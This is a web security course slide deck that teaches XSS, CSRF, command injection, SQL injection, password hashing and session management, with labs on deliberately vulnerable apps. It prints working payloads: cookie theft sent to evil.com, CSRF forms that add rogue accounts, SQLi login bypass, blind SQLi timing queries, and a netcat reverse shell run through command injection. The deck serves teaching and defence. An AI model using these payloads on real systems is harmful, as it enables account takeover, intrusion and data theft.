# Boot USB - Choose "Live USB Persistence"  --- class: center, middle # Web Security Magnus Klaaborg Stubman slides: http://dumpco.re/websec --- # Agenda 1. Cross-Site Scripting (XSS) 2. Cross-Site Request Forgery (CSRF) 3. Command injection 4. SQL injection (SQLi) 5. Authentication 6. Session Management 7. Third party components 8. Authorization / Access Control 9. Sensitive Data Exposure 10. Transport Layer Encryption 11. Insufficient Attack Protection --- class: center, middle # XSS Cross-site scripting --- # Goal Inject bad stuff in user's browsers --- # For fun ```html <h1>MOHAHAHAH YOU HAVE BEEN HACKED!!!</h1> ``` <img src="mohaha.png" width="100%"> --- # To get money ```html <h1>We have stolen all your stuff! Send a ton of $$$$</h1> ``` <img src="steal.png" width="100%"> --- # To spread malware ```html <script>window.location = "http://evil.com/prophecy.zip";</script> ``` <img src="download.png" width="50%" class="c"> --- # What does this do? and why? ```html <script> a = '<img src="http://evil.com/collect.gif?x=' + escape(document.cookie) + '" />'; document.write(a); </script> ``` --- # Attacker's apache access_log ```log 71.8.51.256 - - [07/Feb/2013:20:41:17 +0700] "GET /collect.gif?x=I_MaWpDC7126YmBO52ZSh1A sd--KmqQ%3b+__qca%3dP0-729728865-1504205877976%3b+_ga%3dGA1.2.1238627493.1504205878%3b+_ gid%3dGA1.2.689 323835.1504205878 HTTP/1.1" 200 285 "http://evil.com/collect.gif?x=__gad s%3dID%3d75b533976fe567ab%3aT%3d1504205885%3aS%3dALNI_MaWpDC7126YmBO52ZSh1Asd--KmqQ%3b+_ _qca%3dP0-729728865-1504205877976%3b+_ga%3dGA1.2.1238627493.1504205878%3b+_gid%3dGA1.2.6 89323835.1504205878" "Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.17 (KHTML, like Gecko ) Chrome/24.0.1312.57 Safari/537.17" ``` --- # Terminology XSS payload == thing the attacker wants to inject into your browser --- # Types of XSS 1. Reflected 2. Stored (persistent) 3. DOM-based --- class: center, middle # Reflected XSS --- # Reflected XSS XSS payload is sent to the server, which returns it back in it's response. After that, it's gone.  --- # Reflected XSS Example: ``` http://example.com/search=<script>alert("xss");</script> ``` HTTP request: ```http GET /search=<script>alert("xss");</script> HTTP/1.1 Host: example.com User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 ``` HTTP response: ```http HTTP/1.1 200 OK Content-Type: text/html Content-Length: 1270 Connection: close <!doctype html> <html> ... Your search for "<script>alert("xss");</script>" gave 0 results. ``` --- class: center, middle # Stored XSS (persistent XSS) --- # Stored XSS (persistent XSS) Two step attack: 1. XSS payload is sent to the server, which stores it. 2. Victim user visits website, which serves the payload to the victim Note: XSS payload is stored, potentially forever, in some form of database.  --- # Stored XSS (persistent XSS) Step 1: inject payload on http://example.com/addYourName.php <img src="postxss.png"> ```http POST /addYourName.php HTTP/1.1 Host: example.com Content-Type: application/x-www-form-urlencoded ... fname=Kevin%3Cscript%3Ealert%28%22xss%22%29%3B%3C%2Fscript%3E&lname= ``` Step 2: on http://example.com/ViewAllNames.php ```http HTTP/1.1 200 OK Content-Type: text/html ... <p>Names of visitors:</p> <ul> <li>Robert</li> <li>John</li> <li>Kevin<script>alert("xss");</script><li> </ul> ``` --- class: middle, center # XSS mitigation XSS prevention --- class: middle, center # Why not just remove "<" and ">"? a.k.a. filtering --- class: middle, center # Let's try ! --- # XSS mitigation Assume that "<" and ">" are blacklisted: ```html <?php $input = $_GET["name"]; $input = str_replace("<", "", $input); $input = str_replace(">", "", $input); ?> <input type="text" value="<?php echo $input; ?>"> ``` payload: `<script>alert("xss");</script>` will become: ```html <input type="text" value="scriptalert("xss");/script")> ``` Is it possible to get around this filter? --- # Simple XSS filter bypass Payload: ``` " onmouseover="alert('xss')" x=" ``` Result: ```html <input type="text" value="" onmouseover="alert('xss')" x=""> ``` --- # UTF-7 charset XSS filter bypass Only worked if site didn't declare charset, or declared charset as utf-7: ```html <HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD> ``` XSS payload: ```html +ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4- ``` source: https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet --- # VBScript XSS filter bypass XSS payload ```html <IMG SRC='vbscript:msgbox("XSS")'> ``` source: https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet --- # Regular expression XSS filter bypass For performing XSS on sites that allow "<SCRIPT>" but don't allow "<SCRIPT SRC..." by way of a regex filter "/<script[^>]+src/i": ```html <SCRIPT a=">" SRC="httx://evil.com/a.js"></SCRIPT> ``` source: https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet --- # Exercise 1. Start "Google Gruyere" - check readme.txt 2. Find XSS! --- class: center, middle # Question What does it mean for the attacker that the XSS payload is stored, potentially forever, on the website? --- # Answer - the attack is launched against all visiting users, not just one - the attack is more easily detected by other users and administrators --- class: center, middle # DOM-based XSS --- # DOM-based XSS XSS payload is never sent to the server. Example: ``` http://example.com/search#<script>alert("xss");</script> ``` HTTP request: ```http GET /search HTTP/1.1 Host: example.com User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0 Connection: close ```  --- # DOM-based XSS example ```http HTTP/1.1 200 OK Content-Type: text/html Content-Length: 1270 Connection: close <html> <script> // Today, browsers include the pound sign in // the hash and encode the entire thing var removePound = location.hash.substring(1); var unescaped = unescape(removePound); eval(unescaped); </script> </html> ``` --- # jQuery 1.8.3 bug ``` http://dumpco.re/lab/jqueryxss/#<img src=x onerror=alert('xss')> ``` ```html <html> <script src="jquery-1.8.3.min.js"></script> <script> // this used to work: // $(location.hash); // Today, browsers include the pound sign in the hash and encode the // entire thing,so the following is needed to demo the bug: var removePound = location.hash.substring(1); var unescaped = unescape(removePound); $(unescaped); </script> </html> ``` --- class: middle, center # Worst case scenario: from XSS to RCE (remote code execution) --- # From XSS to RCE If the victim user can upload files, then so can the attacker! Example XSS payload for Wordpress, with two steps: 1. grab anti-CSRF nonce 2. Use Wordpress functionality to upload a malicious PHP webshell full source: https://github.com/magnusstubman/presentations/blob/master/evil/wordpressxss2rce.js --- # Demo <a href="xss2rce.mov">download xss2rce.mov</a> https://youtu.be/oifGQlO-PqI <iframe width="560" height="315" src="https://www.youtube.com/embed/oifGQlO-PqI" frameborder="0" allowfullscreen></iframe> --- # If you could pick one... Which type of XSS would you pick if you wanted to steal an administrator's account? and why? - Reflected - Stored - DOM-based --- class: middle, center # XSS mitigation --- # XSS mitigation We want to turn: <img src="alertxss.png" width="70%"> into: <img src="outputencoding.png" width="70%"> --- # XSS mitigation We achieve this by turning: ```html <script>alert("xss");</script> ``` into: ```html <script>alert("xss");</script> ``` HTML entities: https://dev.w3.org/html5/html-author/charref --- # XSS mitigation C# ```c# HttpUtility.HtmlEncode() // NOT HttpUtility.HtmlAttributeEncode() ``` PHP ```php echo htmlspecialchars($input, ENT_QUOTES, 'UTF-8'); ``` JSP ```jsp <p><c:out value="${bean.userControlledValue}"></p> <p><input name="foo" value="${fn:escapeXml(param.foo)}"></p> ``` Dangerous JavaScript functions: ```javascript eval() document.write() document.writeln() element.innerHTML = "..." element.outerHTML = "..." ``` --- class: middle, center # Exotic ideas --- # Exotic ideas - spy on people through their webcam - https://developer.mozilla.org/en-US/docs/Web/API/WebRTC_API/Taking_still_photos - bitcoin mining - https://github.com/derjanb/hamiyoca - portscanning http://www.andlabs.org/tools/jsrecon.html - BeeF - Browser exploitation framework - http://beefproject.com/ --- # Conclusion - We can steal sessions - We can do anything the victim can do - even get RCE - Always output encode - filters can (almost always) be bypassed - XSS may be more dangerous in the future as browsers become more powerful --- class: middle, center # CSRF Cross-Site Request Forgery --- # CSRF Goal: Performing action on behalf of a victim user --- # Change password  --- # Add rogue account  --- class: middle ``` http://example.com/transferMoney.aspx?toAccount=7777&amount=5000 ``` --- class: middle ```html Hi Joe! I just came back from my vacation and thought that I'd share these beach photos with you ;) <a href="http://example.com/transferMoney.aspx?toAccount=7777&amount=5000"> Click here </a> Regards, Rebecca <3 ``` --- class: middle ``` http://example.com/deleteAccount.php?areyousure=yes ``` --- class: middle ```html Hi Joe! I just came back from my vacation and thought that I'd share these beach photos with you ;) <a href="http://example.com/deleteAccount.php?areyousure=yes">Click here</a> Regards, Rebecca <3 ``` --- # POST requests ```html <form action="/addUser.php" method="post"> username:<br> <input type="text" name="username"> password:<br> <input type="text" name="password"> <input type="submit" value="Add user"> </form> ```  --- # POST requests Automatic form post ```html <form action="http://example.com/addUser.php" method="POST"> <input type="hidden" name="username" value="hacker" /> <input type="hidden" name="password" value="haxhaxhax" /> <input type="submit" value="Submit request" /> </form> <script> document.forms[0].submit(); </script> ``` --- # POST requests Automatic AJAX POST request ```html <script> var xhr = new XMLHttpRequest(); xhr.open("POST", "http:\/\/example.com\/addUser.php", true); xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,*\/*;q=0.8"); xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5"); xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded"); xhr.withCredentials = true; var body = "username=hacker&password=haxhaxhax"; var aBody = new Uint8Array(body.length); for (var i = 0; i < aBody.length; i++) { aBody[i] = body.charCodeAt(i); } xhr.send(new Blob([aBody])); </script> ``` --- class: middle  --- class: middle  --- class: middle  --- class: middle ``` http://example.com/transferMoney.aspx?fromAccount=4444&toAccount=7777&amount=5000 ``` <!----> ``` http://goo.gl/ZnVP5n ``` ```http HTTP/1.1 301 Moved Permanently Location: http://example.com/transferMoney.aspx?fromAccount=4444&toAccount=7777&amount=5000 ... ``` --- # Exercise 1. Start "Google Gruyere" - check readme.txt 2. Find CSRF! --- class: middle, center # CSRF mitigation --- # CSRF mitigation 1. Confirmation, or 2. anti-CSRF tokens (or both) --- # CSRF mitigation  --- # CSRF mitigation ```html <form> <input type="hidden" name="antiCSRFToken" value="55hHf4ueowUIFHiEW2"> … </form> ``` anti-CSRF token can NOT be a cookie. Why? --- # Conclusion - Functionality is vulnerable to CSRF if no confirmation or anti-CSRF tokens exist - Both GET and POST can be used - Anti-CSRF token must be something which is *not* automatically added by the browser in requests, and cannot be guessed by attackers - Attackers can bypass anti-CSRF token protection if an XSS exists --- class: middle, center # Command injection --- # Command injection Goal: Execute system commands on the server --- # Command injection  ```html <p>Enter filename to delete</p> <form method="get"> <input type="text" name="filename"> <input type="submit"> </form> <?php if (isset( $_GET['filename'] ) ){ echo "Deleting file..."; system("rm '" . $_GET['filename'] . "'"); } ?> ``` ---  --- # Command injection  ```php system("rm '" . $_GET['filename'] . "'"); ``` --- # Command injection  Payload: ``` aa'; uname -a # ``` ```php system("rm '" . $_GET['filename'] . "'"); system("rm 'aa'; uname -a #'"); ``` --- # Command injection command separator: ```bash ; ``` and: ```bash && ``` comment out the rest of the line: ```bash # ``` --- # Exercise 1. Start "Damn Vulnerable Web App (DVWA)" - check readme.txt 2. Exploit the command injection vulnerability 3. Get the contents of the `/etc/passwd` file 4. Change DVWA security level from "low" to "medium" and attempt to exploit the vulnerability again 4. Start a local netcat listener in a terminal and use the command injection to launch a reverse shell from the webserver - Netcat listener: `nc -l -v -p 4444` - Reverse shell: `nc -e /bin/bash 127.0.0.1 4444` 5. Change DVWA security level from "medium" to "high" and attempt to exploit the vulnerability again --- class: middle, center # Command injection mitigation --- # Command injection mitigation 1. Whitelist user input, or 2. Input filtering --- # Command injection mitigation ```html <p>Enter filename to delete</p> <form method="get"> <input type="text" name="filename"> <input type="submit"> </form> <?php $input = $_GET['filename']; if (isset( $input) ){ echo "Deleting file..."; if ($input === "summer.jpg") { system("rm '" . $input . "'"); } elseif ($input === "autumn.jpg") { system("rm '" . $input . "'"); } elseif ($input === "winter.jpg") { system("rm '" . $input . "'"); } else { echo "Error! File not whitelisted!" } } ?> ``` --- # Command injection mitigation DVWA command injection level: impossible ```php $target = $_REQUEST[ 'ip' ]; $target = stripslashes( $target ); $octet = explode( ".", $target ); if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) ) { $target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3]; if( stristr( php_uname( 's' ), 'Windows NT' ) ) { $cmd = shell_exec( 'ping ' . $target ); } else { $cmd = shell_exec( 'ping -c 4 ' . $target ); } echo "<pre>{$cmd}</pre>"; } else { echo '<pre>ERROR: You have entered an invalid IP.</pre>'; } ``` --- # Conclusion - Never trust unfiltered user input as part of a system command or `eval()` argument --- class: middle, center # SQL injection (SQLi) --- # SQLi Goal: Execute SQL queries against the web application's database --- # SQLi Table: ``` +-USERS----+----------+ | username | password | +---------------------+ | admin | pass123 | | kevin | m0ney | | john | 619air | +----------+----------+ ``` Query: ```SQL SELECT * FROM users WHERE username='kevin' AND password='m0ney'; ``` Result: ``` +----------+----------+ | kevin | m0ney | +----------+----------+ ``` --- # SQLi ```PHP $query = "SELECT * FROM users WHERE username='" . $_GET['username'] . "' AND password='" . $_GET['password'] . "';"; ``` If we set username to: ``` admin';-- ``` Query becomes: ```SQL SELECT * FROM users WHERE username='admin';--' AND password=''; ``` Result: ? --- # SQLi ```PHP $query = "SELECT * FROM users WHERE username='" . $_GET['username'] . "' AND password='" . $_GET['password'] . "';"; ``` If we set username to: ``` admin';-- ``` Query becomes: ```SQL SELECT * FROM users WHERE username='admin';--' AND password=''; ``` Result: ``` +---------------------+ | admin | pass123 | +---------------------+ ``` --- # SQLi ```PHP $query = "SELECT * FROM users WHERE username='" . $_GET['username'] . "' AND password='" . $_GET['password'] . "';"; ``` If we set username to `admin` and password to: ``` ' OR '1'='1 ``` Query becomes: ```SQL SELECT * FROM users WHERE username='admin' AND password='' OR '1'='1'; ``` Result: ? --- # SQLi ```PHP $query = "SELECT * FROM users WHERE username='" . $_GET['username'] . "' AND password='" . $_GET['password'] . "';"; ``` If we set username to `admin` and password to: ``` ' OR '1'='1 ``` Query becomes: ```SQL SELECT * FROM users WHERE username='admin' AND password='' OR '1'='1'; ``` Result: ``` +---------------------+ | admin | pass123 | | kevin | m0ney | | john | 619air | +----------+----------+ ``` --- # SQLi ```SQL SELECT * FROM users WHERE username='admin' AND password='' OR '1'='1'; ``` ```SQL SELECT * FROM users WHERE (username='admin' AND password='') OR ('1'='1'); ^ ^ | | is evaluated first, returns nothing | | is evaluated secondly, returns all items in table ``` full list of operator precedence: https://dev.mysql.com/doc/refman/5.7/en/operator-precedence.html --- # Blind SQLi A SQLi is said to be "blind" if the attacker get no feedback regardless wether the query was successfull or caused an exception. --- # Blind SQLi A SQLi is said to be "blind" if the attacker get no feedback regardless wether the query was successfull or caused an exception. Exploitation: make the request take more time if it was successful. (this is known as a side channel) --- # Blind SQLi ```sql # MySQL SELECT * FROM products WHERE id=1-SLEEP(15) SELECT * FROM products WHERE id=1-BENCHMARK(100000000, rand()) # SQLServer SELECT * FROM products WHERE id=1; WAIT FOR DELAY '00:00:15' SELECT * FROM products WHERE id=1; IF SYSTEM_USER='sa' WAIT FOR DELAY '00:00:15' # Oracle BEGIN DBMS_LOCK.SLEEP(15); END; ``` --- # Blind SQLi ```sql SELECT IF(SUBSTRING(user_password,1,1) = CHAR(65),SLEEP(2),null) FROM users WHERE user_id = 1; ``` `char(65)` is "A" (http://www.asciitable.com/) --- # Exercise 1. start Damn Vulnerable Web App (DVWA) - check readme.txt 2. Exploit the SQLi 3. Use `sqlmap` to exploit the SQLi (run `sqlmap -hh` for help) 5. Proxy `sqlmap` through burp so that you can see what's going on. Look at `sqlmap`'s traffic. (`--proxy=http://127.0.0.1:8080`) 7. Dump entire database using `sqlmap` (without proxying through burp) 0. Get remote code execution using `sqlmap` (without proxying through burp) 11. Get remote code execution again using `sqlmap`, this time while proxying through burp. How does `sqlmap` get code execution? note: `sqlmap` caches previous responses locally. Run `sqlmap --purge-output`. If things get wrid, and make sure that your session is still valid --- class: middle, center # SQLi mitigation --- # SQLi mitigation ```SQL +---- data ---------+ | | v v SELECT * FROM users WHERE username='kevin' AND password='m0ney'; ^ ^ ^ ^ ^ ^ ^ ^ | | | | | | | | +-------------------- query --------------------+ ``` Solution: separate query and data --- # SQLi mitigation ```php $stmt = $conn->prepare("SELECT * FROM users WHERE username=? AND password=?"); $stmt->bind_param("ss", $username, $password); ``` ```SQL admin';-- ``` becomes ```SQL admin'';-- ``` ' is the escape character --- # SQLi mitigation ```c# private static void UpdateDemographics(Int32 customerID, string demoXml, string connectionString) { string commandText = "UPDATE Sales.Store SET Demographics = @demographics " + "WHERE CustomerID = @ID;"; using (SqlConnection connection = new SqlConnection(connectionString)) { SqlCommand command = new SqlCommand(commandText, connection); command.Parameters.Add("@ID", SqlDbType.Int); command.Parameters["@ID"].Value = customerID; command.Parameters.AddWithValue("@demographics", demoXml); try { connection.Open(); Int32 rowsAffected = command.ExecuteNonQuery(); Console.WriteLine("RowsAffected: {0}", rowsAffected); } catch (Exception ex) { Console.WriteLine(ex.Message); } } } ``` --- ### Mandatory xkcd reference #1 (https://xkcd.com/327/) <img src="exploits_of_a_mom.png" width="100%"> --- # Conclusion - Never concatenate data and query - Use prepared statements --- class: middle, center # Authentication Process of prooving the identify of a user or process --- # Authentication - Weak protection of stored credentials - Guessable password (Weak password policy) - Forgot password - Password change - E-mail change - Notification of authentication events --- # Weak protection of stored credentials ``` +-USERS----+----------+ | username | password | +---------------------+ | admin | pass123 | | kevin | m0ney | | john | 619air | +----------+----------+ ``` --- class: middle, center # Password hashing --- # Password hashing Goal: ensure that it is impossible to learn the passwords in the event that an attacker gains access to the database --- # Password hashing Goal: ensure that it is ~~impossible~~ **impractical** to learn the passwords in the event that an attacker gains access to the database --- # Password hashing "One-way Hash Functions"  source: https://simple.wikipedia.org/wiki/Hash_function#/media/File:Hash_function.svg --- # MD5 password hashing - md5(`pass123`) == `32250170a0dca92d53ec9624f336ca24` - md5(`m0ney`) == `8d717d103f782b5079b525a4d474750f` - md5(`619air`) == `fa5ee85167943edb3649af8c54d99558` --- # MD5 password hashing ``` +-USERS----+----------------------------------+ | username | password_hash | +---------------------------------------------+ | admin | 32250170a0dca92d53ec9624f336ca24 | | kevin | 8d717d103f782b5079b525a4d474750f | | john | fa5ee85167943edb3649af8c54d99558 | +----------+----------------------------------+ ``` --- # MD5 password hashing ``` +-USERS----+----------------------------------+ | username | password_hash | +---------------------------------------------+ | admin | 32250170a0dca92d53ec9624f336ca24 | | kevin | 8d717d103f782b5079b525a4d474750f | | john | fa5ee85167943edb3649af8c54d99558 | +----------+----------------------------------+ ``` ```php $stmt = $conn->prepare("SELECT * FROM users WHERE username=? AND password_hash=?"); $stmt->bind_param("ss", $username, md5($password)); ``` --- # Password cracking (8x Nvidia GTX 1080) Algorithm | speed -------------------|------------- MD5 | 200.3 GH/s SHA1 | 68771.0 MH/s SHA256 | 23012.1 MH/s SHA384 | 8408.5 MH/s SHA256 | 8624.7 MH/s SHA-3 | 6495.6 MH/s PBKDF2-HMAC-MD5 | 59296.5 kH/s PBKDF2-HMAC-SHA1 | 26156.2 kH/s PBKDF2-HMAC-SHA256 | 9473.2 kH/s PBKDF2-HMAC-SHA512 | 3450.1 kH/s OSX 10.8+ | 98618 H/s sha512crypt | 1168.6 kH/s WPA/WPA2 | 3177.6 kH/s NetNTLMv1 | 179.3 GH/s NetNTLMv2 | 13149.5 MH/s source: https://gist.github.com/epixoip/a83d38f412b4737e99bbef804a270c40 --- # PBKDF2-HMAC-SHA256 ```php function myhash($password, $salt, $iterations) { return hash_pbkdf2("sha512", $password, $salt, $iterations); } ``` --- # PBKDF2-HMAC-SHA256 ```php function myhash($password, $salt, $iterations) { return hash_pbkdf2("sha512", $password, $salt, $iterations); } echo myhash("pass123", "0hK53wquk", 1000); // dc8fb849620e7d1d7ba103da70a1156b2734f20178e1db32024712a546127b110530732aa1d8 // 10592989eef5c9e77e15c4c3cac0f725f5e6a9586b201e969c8b echo myhash("m0ney", "yEQ9PjDRZg", 1000); // 731dbe6af2208ae383671ef2f51e747a923bc25e4c5cb367a32f9c4dbe297af84652e961ea45 // faaaa610af36f6b8cb0dfc573f951174454537e6169c0d70d4af echo myhash("619air", "2jLyqfZ3E1", 1000); // 32194a4ac44c403cee1f88f756e0631a3996e61a0879cbd129d87357d223dcad56af18900edc // ae88a1f3ef571a7b05b38c742621133445f5241ee04be67897a4 ``` ``` +----------+---------------+------------+------------+ | username | password_hash | salt | iterations | +---------------------------------------+------------+ | admin | dc8fb84962... | 0hK53wquk | 1000 | | kevin | 731dbe6af2... | yEQ9PjDRZg | 1000 | | john | 32194a4ac4... | 2jLyqfZ3E1 | 1000 | +----------+---------------+------------+------------+ ``` --- # Iterations - As many as practically possible for your users (usability vs security) - Must increase over time as hardware becomes faster --- # Salt Purpose: prevent precomputation attacks by making hash unique `hashFunction(password + salt) = hash` - Salt **must** be unqiue per user --- # Precomputation attacks  --- # Precomputation attacks Rainbow table - precomputed table of plaintext passwords and their corresponding hash. Example: ``` a:0cc175b9c0f1b6a831c399e269772661 b:92eb5ffee6ae2fec3ad71c777531578f c:4a8a08f09d37b73795649038408b5f33 d:8277e0910d750195b448797616e091ad e:e1671797c52e15f763380b45e841ec32 ... ``` Download LM/NTLM/MD5/SHA1 tables here: http://project-rainbowcrack.com/table.htm --- # RainbowCrack screenshot  --- # Password hashing conclusion - Hash and salt credentials - Use a hashing algorithm that is sufficiently slow - Do **NOT** implement your own hashing algorithm --- class: middle, center # Guessable password Weak password policy --- # Guessable password - Minimum password length, e.g. 12 characters or as long as practically possible (usability) - Add a blacklist of known weak passwords e.g. - `Summer17` - `Summer2017` - `Password1` - `C0mpanyname` - `Companyname1` - `Companyname1!` - `Companyname123` - Industry standard: require at least three of the following categories: - lowercase characters - Uppercase characters - digits - symbols --- ### Mandatory xkcd reference #2 (https://xkcd.com/936/) <img src="password_strength.png" width="88%" class="c ns"> --- class: middle, center ### Rule of thumb: length (almost) always beats complexity --- ## Examples where length does **not** beat complexity: - `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa...` (max length) - `bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb...` (max length) - `000000000000000000000000000000000000000000000000000000...` (max length) - etc --- class: middle, center ## Encourage your users to use password managers! --- # Guessable password Is this OK? 1. Create new online user. Username is the employee's 6-digit access card number, printed on the card 2. Employee can login the first time with a blank password, and need to change his/her password on first login --- # Guessable password Is this OK? 1. Create new online user. Username is the employee's 6-digit access card number, printed on the card 2. Employee can login the first time with a blank password, and need to change his/her password on first login - Anyone can take over an employee's account if the employee hasn't logged in yet --- # Guessable password Is this OK? 1. Create new online user. Username is the employee's 6-digit access card number, printed on the card 2. Employee can login the first time with a blank password, and need to change his/her password on first login - Anyone can take over an employee's account if the employee hasn't logged in yet - Is this really a serious problem? --- # Guessable passwords conclusion - Enforce strong passwords - Blacklist "known bad" passwords - Encourage the use of password managers --- class: middle, center # Forgot password --- # Forgot password No industry standard - Do you need to have security questions? If so, make sure that it's not possible to research the answer! - "What's the name of your first pet?" - "What's the name of your first school?" - "What's your mom's maiden name?" - "What's your first female teacher's maiden name?" Remember that the answers need to be protected just as well as the passwords are protected --- # Forgot password Spot the problem(s): 1. User clicks "forgot password" 2. System resets the user's password to a random password and e-mails it to the user --- # Forgot password Spot the problem(s): 1. User clicks "forgot password" 2. System resets the user's password to a random password and e-mails it to the user Problem: 1. Password is (potentially) transmitted in clear-text in the e-mail --- # Forgot password Spot the problem(s): 1. User clicks "forgot password" 2. System e-mails the user a secret URL which allows the user to change password 3. User uses the URL to reset the password --- # Forgot password Spot the problem(s): 1. User clicks "forgot password" 2. System e-mails the user a secret URL which allows the user to change password 3. User uses the URL to reset the password Hint: - Think about what happens to the secret URL later? --- # Forgot password Spot the problem(s): 1. User clicks "forgot password" 2. System e-mails the user a secret URL which allows the user to change password 3. User uses the URL to reset the password Hint: - Think about what happens to the secret URL later? - What if the secret URL is leaked and an attacker gets access to it later? --- # Forgot password Spot the problem(s): 1. User clicks "forgot password" 2. System e-mails the user a secret URL which allows the user to change password 3. User uses the URL to reset the password Hint: - Think about what happens to the secret URL later? - What if the secret URL is leaked and an attacker gets access to it later? Problem: - The secret URL is never revoked --- # Forgot password Spot the problem(s): 1. User clicks "forgot password" 2. System e-mails the user a secret URL which allows the user to change password 3. User uses the URL to reset the password 4. The secret URL is revoked --- # Forgot password Spot the problem(s): 1. User clicks "forgot password" 2. System e-mails the user a secret URL which allows the user to change password 3. User uses the URL to reset the password 4. The secret URL is revoked Hint: - What happens if the user never visits the secret URL? --- # Forgot password Spot the problem(s): 1. User clicks "forgot password" 2. System e-mails the user a secret URL which allows the user to change password 3. User uses the URL to reset the password 4. The secret URL is revoked Hint: - What happens if the user never visits the secret URL? Problem: - The secret URL never expires --- # Forgot password conclusion - If possible, avoid security questions as it's hard to reason about whether or not a specific answer is researchable/guessable by an attacker - The secret URL must not be guessable - The secret URL may only be used once - The secret URL must be revoked after use - The secret URL must expire --- class: center, middle # Change password --- # Change password Spot the problem(s): --- # Change password Spot the problem(s): - Problem: updating the password does not require the old password - Impact: attackers who gain access to a valid session can completely take over the account --- ## Question: Is it necessary to repeat new password? --- ## Question: Is it necessary to repeat new password? Answer: No. It's a matter of usability, not security. (Only if no "forgot password" functionality is available) --- class: center, middle # Change e-mail address --- # Change e-mail address Must also require the user to enter old password to prevent the following attack scenario: 1. Attacker gains access to active session, somehow 2. Attacker changes the victim's e-mail address to the attacker's e-mail 3. Attacker uses "forgot password" functionality to change the password --- ## Change password & e-mail address conclusion - Sensitive account settings must require the user's password to update them - E-mail address is a sensitive account setting --- # Notification of authentication events  --- # Notification of authentication events Also for ... - Change password - Change e-mail ... everything which is security related --- class: middle, center # Session Management --- class: middle, center *"No need to test session management because we have BankID"* --- class: middle, center *"No need to test session management because we have BankID"* ## Strong authentication does ***not*** automatically give you strong session management! --- # Session Management - Guessable session token - Concurrent sessions - Session administration - Session token exposure - No server-side termination of session upon logout - Session fixation - Session ID reuse - Sessions don't expire --- # Guessable session token DVWA weak session id security level: low ```php if (!isset ($_SESSION['last_session_id'])) { $_SESSION['last_session_id'] = 0; } $_SESSION['last_session_id']++; $cookie_value = $_SESSION['last_session_id']; setcookie("dvwaSession", $cookie_value); ``` --- # Guessable session token DVWA weak session id security level: medium ```php $cookie_value = time(); setcookie("dvwaSession", $cookie_value); ``` --- # Guessable session token DVWA weak session id security level: high ```php if (!isset ($_SESSION['last_session_id_high'])) { $_SESSION['last_session_id_high'] = 0; } $_SESSION['last_session_id_high']++; $cookie_value = md5($_SESSION['last_session_id_high']); setcookie("dvwaSession", $cookie_value, time()+3600, "/vulnerabilities/weak_id/", $_SERVER['HTTP_HOST'], false, false); ``` --- class: middle [http://php.net/manual/en/function.setcookie.php](http://php.net/manual/en/function.setcookie.php) ```php bool setcookie ( string $name [, string $value = "" [, int $expire = 0 [, string $path = "" [, string $domain = "" [, bool $secure = false [, bool $httponly = false ]]]]]] ); ``` --- # Guessable session token DVWA weak session id security level: impossible ```php $cookie_value = sha1(mt_rand() . time() . "Impossible"); setcookie("dvwaSession", $cookie_value, time()+3600, "/vulnerabilities/weak_id/", $_SERVER['HTTP_HOST'], true, true); ``` --- # Concurrent sessions Question: Should it be possible to have more than one session at once? --- # Concurrent sessions Question: Should it be possible to have more than one session at once? - Social media: probably okey - Internet banking: probably not --- # Concurrent sessions Potential IOCs (Indicator Of Compromise): - New session is opened while current session is active - Requests with valid session token starts appearing from a different IP-address than the one which logged in - could be attack - could be that user switched from Ethernet to Wi-Fi or started using mobile hotspot --- # Concurrent sessions Potential IOCs (Indicator Of Compromise): - New session is opened while current session is active - Requests with valid session token starts appearing from a different IP-address than the one which logged in - could be attack - could be that user switched from Ethernet to Wi-Fi or started using mobile hotspot Solution: Alert the "first" user via trusted channel (e.g. e-mail/sms) that something happened and let him/her decide what to do --- # Session administration  source: https://telegram.org/blog/sessions-and-2-step-verification --- class: middle, center ## Question: Should we terminate all sessions upon password change? --- class: middle, center ## Question: Should we terminate all sessions upon password change? Answer: depends on why the user changed his/her password --- # Session token exposure Exposure of session tokens potentially makes users vulnerable to session re-use. Session token in URL means that the session token is saved in: - Browser history - Proxy cache - Load balancer cache - Web server access log - HTTP referer header e.g. session token is readable by externally linked sites ```http GET /somePage.aspx HTTP/1.1 Host: external-page.com User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0 Referer: http://example.com/something.aspx?SessionID=573deb8b889a38b32dbe535e3dc0affb Connection: close ``` - **Never** store session token in URL or any other location which is cached stored - Keep secrets in Cookies or custom HTTP headers which are not leaked to third parties --- ## No server-side termination of session upon logout Attack scenario: 1. Victim logs in, receives new SessionID 2. Victim logs out 3. Attacker gets read access to the SessionID somehow 4. Attacker now has access to the victims account because the SessionID was never terminated server-side Conclusion: - Always terminate sessions server-side - Clients should repeat the logout request until server confirms that session has been terminated --- # Session fixation Spot the problem(s). ```http POST /login.php HTTP/1.1 Host: example.com User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:53.0) Gecko/20100101 Firefox/53.0 Content-Type: application/x-www-form-urlencoded Content-Length: 105 Cookie: SessionID=573deb8b889a38b32dbe535e3dc0affb Connection: close username=kevin&password=m0ney ``` ```http HTTP/1.1 200 OK Content-Type: text/html Content-Length: 1270 Connection: close <!doctype html> <html> ... Authentication succeeded. Welcome, Kevin! ``` 